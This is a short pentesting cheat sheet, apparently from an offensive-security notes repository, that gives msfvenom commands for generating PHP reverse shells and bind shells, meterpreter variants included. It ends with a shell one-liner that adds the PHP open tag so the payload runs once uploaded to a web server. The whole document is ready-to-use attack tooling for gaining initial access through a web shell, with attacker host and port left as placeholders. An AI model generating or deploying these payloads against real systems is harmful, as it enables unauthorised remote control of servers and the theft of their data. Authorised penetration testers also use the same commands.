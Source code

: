 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - initial-access
  - cross-platform
  - metasploit-framework
---
```

# PHP

## Reverse Shells

### Generate a payload via `msfvenom`

Staged PHP reverse shell.

```
$ msfvenom -p php/reverse_php lhost=<IP> lport=<PORT> -f raw -o payload.php
```

Staged PHP with perl reverse shell.

```
$ msfvenom -p php/reverse_perl lhost=<IP> lport=<PORT> -f raw -o payload.php
```

Staged PHP `meterpreter` reverse shell.

```
$ msfvenom -p php/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f raw -o payload.php
```

Stageless PHP `meterpreter` reverse shell.

```
$ msfvenom -p php/meterpreter_reverse_tcp lhost=<IP> lport=<PORT> -f raw > payload.php
```

## Bind Shells

### Generate a payload via `msfvenom`

Staged PHP bind shell.

```
$ msfvenom -p php/bind_php lhost=<IP> lport=<PORT> -f raw -o payload.php
```

Staged PHP with perl bind shell.

```
$ msfvenom -p php/bind_perl lport=<PORT> -f raw -o payload.php
```

Staged PHP `meterpreter` bind shell.

```
$ msfvenom -p php/meterpreter/bind_tcp lport=<PORT> -f raw -o payload.php
```

Stageless PHP `meterpreter` bind callback shell

```
$ msfvenom -p php/meterpreter_bind_tcp lport=<PORT> -f raw -o payload.php
```

## Properly Executed

After generating the PHP payload include the tags to ensure execution.

```
$ xclip -selection clipboard payload.php && echo '<?php ' | tr -d '\n' > payload.php && xclip -selection clipboard -o >> payload.php
```